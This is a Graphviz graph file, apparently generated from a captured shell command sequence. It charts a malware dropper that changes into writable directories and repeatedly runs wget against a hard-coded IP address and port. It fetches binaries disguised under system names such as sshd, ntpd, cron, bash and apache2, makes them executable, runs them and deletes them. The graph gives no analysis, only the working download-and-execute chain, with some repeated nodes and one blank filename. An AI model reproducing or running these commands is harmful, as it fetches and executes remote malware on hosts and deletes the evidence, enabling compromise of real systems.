 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://115.236.92.99:12345/1.sh "];
10 -> 12 [label=";,"];
12 [label="chmod +x 1.sh "];
12 -> 14 [label=";,"];
14 [label="./1.sh "];
14 -> 16 [label=";,"];
16 [label="rm -rf 1.sh "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://115.236.92.99:12345/ntpd "];
28 -> 30 [label=";,"];
30 [label="chmod +x ntpd "];
30 -> 32 [label=";,"];
32 [label="./ntpd "];
32 -> 34 [label=";,"];
34 [label="rm -rf ntpd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://115.236.92.99:12345/sshd "];
46 -> 48 [label=";,"];
48 [label="chmod +x sshd "];
48 -> 50 [label=";,"];
50 [label="./sshd "];
50 -> 52 [label=";,"];
52 [label="rm -rf sshd "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://115.236.92.99:12345/openssh "];
64 -> 66 [label=";,"];
66 [label="chmod +x openssh "];
66 -> 68 [label=";,"];
68 [label="./openssh "];
68 -> 70 [label=";,"];
70 [label="rm -rf openssh "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://115.236.92.99:12345/bash "];
82 -> 84 [label=";,"];
84 [label="chmod +x bash "];
84 -> 86 [label=";,"];
86 [label="./bash "];
86 -> 88 [label=";,"];
88 [label="rm -rf bash "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://115.236.92.99:12345/tftp "];
100 -> 102 [label=";,"];
102 [label="chmod +x tftp "];
102 -> 104 [label=";,"];
104 [label="./tftp "];
104 -> 106 [label=";,"];
106 [label="rm -rf tftp "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://115.236.92.99:12345/wget "];
118 -> 120 [label=";,"];
120 [label="chmod +x wget "];
120 -> 122 [label=";,"];
122 [label="./wget "];
122 -> 124 [label=";,"];
124 [label="rm -rf wget "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://115.236.92.99:12345/cron "];
136 -> 138 [label=";,"];
138 [label="chmod +x cron "];
138 -> 140 [label=";,"];
140 [label="./cron "];
140 -> 142 [label=";,"];
142 [label="rm -rf cron "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://115.236.92.99:12345/ftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x ftp "];
156 -> 158 [label=";,"];
158 [label="./ftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf ftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://115.236.92.99:12345/pftp "];
172 -> 174 [label=";,"];
174 [label="chmod +x pftp "];
174 -> 176 [label=";,"];
176 [label="./pftp "];
176 -> 178 [label=";,"];
178 [label="rm -rf pftp "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://115.236.92.99:12345/sh "];
190 -> 192 [label=";,"];
192 [label="chmod +x sh "];
192 -> 194 [label=";,"];
194 [label="./sh "];
194 -> 196 [label=";,"];
196 [label="rm -rf sh "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://115.236.92.99:12345/  "];
208 -> 210 [label=";,"];
210 [label="chmod +x   "];
210 -> 212 [label=";,"];
212 [label="./  "];
212 -> 214 [label=";,"];
214 [label="rm -rf   "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://115.236.92.99:12345/apache2 "];
226 -> 228 [label=";,"];
228 [label="chmod +x apache2 "];
228 -> 230 [label=";,"];
230 [label="./apache2 "];
230 -> 231 [label=";,"];
}
